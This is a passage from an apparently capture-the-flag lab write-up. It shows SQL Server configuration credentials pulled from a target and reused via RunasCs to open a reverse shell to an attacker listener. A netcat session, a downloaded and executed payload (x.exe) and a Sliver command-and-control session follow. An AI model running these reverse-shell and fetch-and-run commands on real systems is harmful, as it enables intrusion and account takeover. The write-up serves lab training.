 ```c
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

| Password        |
| --------------- |
| IL0v3ErenY3ager |

## Privilege Escalation to mikasaAckerman through Password Reuse

We `reused` the `password` on the user `mikasaAckermann` to `escalate our privileges` to her.

- [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

```c
PS C:\temp> .\RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.58:6969
.\RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.58:6969

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-51135$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 2956 created in background.
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.14.58] from (UNKNOWN) [10.129.7.9] 49863
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

Then I executed my `payload` again to get a `backup shell` in `Sliver`.

```c
PS C:\temp> iwr 10.10.14.58/x.exe -o x.exe
```

```c
PS C:\temp> .\x.exe
```

```c
[*] Session c8a50b93 ADVERSE_JUICE - 10.129.7.9:59227 (DC) - windows/amd64 - Sat, 01 Jun 2024 18:25:34 EDT
```
